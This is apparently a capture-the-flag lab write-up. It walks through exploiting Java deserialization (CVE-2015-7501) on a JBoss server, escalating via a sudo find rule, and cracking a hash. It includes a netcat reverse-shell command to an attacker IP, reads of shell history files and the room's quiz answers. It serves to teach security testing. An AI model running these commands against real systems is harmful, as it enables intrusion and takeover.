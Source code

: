 
# **Tony the Tiger**

In this room we'll exploit Serialization Attack on Java application.

---

## *Support Material* 

This part of the room just gives us an idea about what serialization is,
which basically is converting an object to byte stream. The exploitation
begins with us tampering with this byte stream in order to trick an
application into disclosing sensitive information, executing arbitrary
code, escalating our privileges etc.

- What is a great IRL example of an "Object"? 
> lamp
- What is the acronym of a possible type of attack resulting from a
"serialisation" attack?
> DoS
- What lower-level format does data within "Objects" get converted into
> byte stream

---

## *Reconnaissance*

Let's enumerate the machine. We'll start with nmap scan:

> `sudo nmap 10.10.41.59 -Pn -p- -A -vv -T4 -oN nmap-scan --script discovery,vuln`

After running the scan, a bunch of open ports came out (17...).

- 22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
- 80/tcp   open  http        syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
- 1090/tcp open  java-rmi    syn-ack ttl 63 Java RMI
- 1091/tcp open  java-rmi    syn-ack ttl 63 Java RMI
- 1098/tcp open  java-rmi    syn-ack ttl 63 Java RMI
- 1099/tcp open  java-object syn-ack ttl 63 Java Object Serialization
- 3873/tcp open  java-object syn-ack ttl 63 Java Object Serialization
- 4446/tcp open  java-object syn-ack ttl 63 Java Object Serialization
- 4712/tcp open  msdtc       syn-ack ttl 63 Microsoft Distributed Transaction Coordinator (error)
- 4713/tcp open  pulseaudio? syn-ack ttl 63
- 5445/tcp open  smbdirect?  syn-ack ttl 63
- 5455/tcp open  apc-5455?   syn-ack ttl 63
- 5500/tcp open  hotline?    syn-ack ttl 63
- 5501/tcp open  tcpwrapped  syn-ack ttl 63
- 8009/tcp open  ajp13       syn-ack ttl 63 Apache Jserv (Protocol v1.3)
- 8080/tcp open  http        syn-ack ttl 63 Apache Tomcat/Coyote JSP engine 1.1
- 8083/tcp open  http        syn-ack ttl 63 JBoss service httpd

So far we've learned, that it has ssh, a couple of HTTP applications, 
it's on Ubuntu, backend uses Java.

- What service is running on port "8080"

> Apache Tomcat/Coyote JSP engine 1.1

- What is the name of the front-end application running on "8080"? (Open
it in browser)

> JBoss

---

## *Find Tony's Flag!*

http-enum and http-sitemap-generator nmap scripts have revealed some
directories, accessible via service, running on port 80:
- /
- /css/
- /images/
- /icons/
- /js/
- /page/
- /posts/frosted-flakes/
- /posts/my-first-post/

After reading blogs, walking an application, searching for comments,
hidden content, references, after running directory scanners and trying
path traversal, I got nothing.

But then I tried looking for hidden content in images and Boom!
An image at posts/frosted-flakes/ contained flag inside.

Download an image: 
> `wget https://i.imgur.com/be2sOV9.jpg`

 Retrieve the flag:
> `strings be2sOV9.jpg | grep -e '.\{5,\}'`

---

## *Exploit!*

Ok, so we have JBoss server, vulnerable to CVE-2015-7501. An exploit can
be found at [byt3bl33d3r's Github](https://github.com/byt3bl33d3r/java-deserialization-exploits),
but let's use the modified version that is supplied in this room.

1. Setup a netcat listener:
> `nc -lvnp 8080`
2. Activate a reverse shell:
> `python3 exploit.py 10.10.41.59:8080 "nc -e /bin/bash $ATTACKER_IP 8080"`

Let's upgrade our netcat shell and snoop around:

1. python3 -c "import pty; pty.spawn('/bin/bash')"
2. Ctrl+Z
3. stty raw -echo
4. fg + ['Enter' 2 times]

First thing that we find is 'note' in /home/jboss, from which we learn jboss's password.

Then we'll use `history` to find what commands were executed

> echo "I see you peeping! You're on the right lines..."

Interesting. Let's `cat /home/jboss/.bash_history`. We will find another flag there.

---

## *Escalate!*

Ok, it's time for privilege escalation! First, switch to user *jboss*;
Then, type `sudo -l` to see what he can run with sudo

> Matching Defaults entries for jboss on thm-java-deserial:
>    env_reset, mail_badpass,
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
>
> User jboss may run the following commands on thm-java-deserial:
>    (ALL) NOPASSWD: /usr/bin/find

Locate payload on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#sudo) and escalate
your privileges to root.

Navigate to /root. You'll find base64 encoded flag:

Decode it:

> `echo '$ENCODED_FLAG' | base64 -d`

Determine hash type:

> `name-that-hash --text "$FLAG"`

Crack MD5 hash with hashcat and rockyou wordlist:

> `hashcat --force -m 0 -a 0 hash.txt ~/CyberSecurity/SecLists/Passwords/Leaked-Databases/rockyou.txt`

Finally, you have a root flag.
